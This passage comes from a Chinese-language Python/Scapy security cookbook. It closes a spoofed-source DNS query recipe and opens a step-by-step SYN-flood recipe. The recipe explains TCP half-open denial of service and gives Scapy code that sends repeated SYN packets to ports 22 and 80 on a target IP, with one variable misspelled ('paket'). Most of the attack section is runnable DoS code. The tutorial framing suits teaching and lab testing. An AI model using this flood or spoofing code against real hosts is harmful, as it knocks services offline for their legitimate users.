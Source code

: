 8.  然后通过调用以下方法发送 DNS 查询：

```
try: 
    print ("Starting Ping")
    dnsQuery(fake_ip,dns_destination,iface)
except KeyboardInterrupt:
    print("Exiting.. ")
    sys.exit(0)  
```

9.  如果我们可以监控受害者的`tcpdump`，我们可以看到 DNS 响应。

# 同步泛洪

SYN 洪泛是一种 DOS 攻击，使合法用户无法使用该服务。SYN 洪水攻击利用 TCP 协议的*三方握手*，其中客户端发送 TCP SYN 数据包以启动与服务器的连接，服务器使用 TCP SYN-ACK 数据包进行回复。然后，在正常操作中，客户机将发送 ACK 数据包，然后发送数据。这将在`SYN_RECV`状态下保持连接打开。但是，如果客户端没有应答 ACK 数据包，则连接将处于半开放状态。

如果多个攻击者或系统打开了与目标服务器的多个此类半开放连接，则可能会填充服务器的 SYN 缓冲区，并可能阻止其接收更多 SYN 数据包，从而导致**拒绝服务**（**DoS**攻击：

![](img/00064.jpeg)

我们可以使用 Scapy 生成 synflood 数据包进行测试。

# 怎么做。。。

以下是创建脚本以生成 SYN 洪泛攻击的步骤：

1.  创建一个`syn-flooding.py`文件并在编辑器中打开它。
2.  然后，我们必须导入所需的模块：

```
from scapy.all import *  
```

3.  现在，声明变量：

```
iface = "en0"
destination_ip = '192.168.1.5'  
```

4.  定义创建和发送 SYN 泛洪数据包的函数：

```
def synFlood(destination, iface):
    print ("Starting SYN Flood")       packet=IP(dst=destination,id=1111,ttl=99)/TCP(sport=RandShort(),dport=[22,80],seq=12345,ack=1000,window=1000,flags="S")/"HaX0r SVP"
    ans,unans=srloop(paket, iface=iface, inter=0.3,retry=2,timeout=4)
    ans.summary()
    unans.summary()  
```
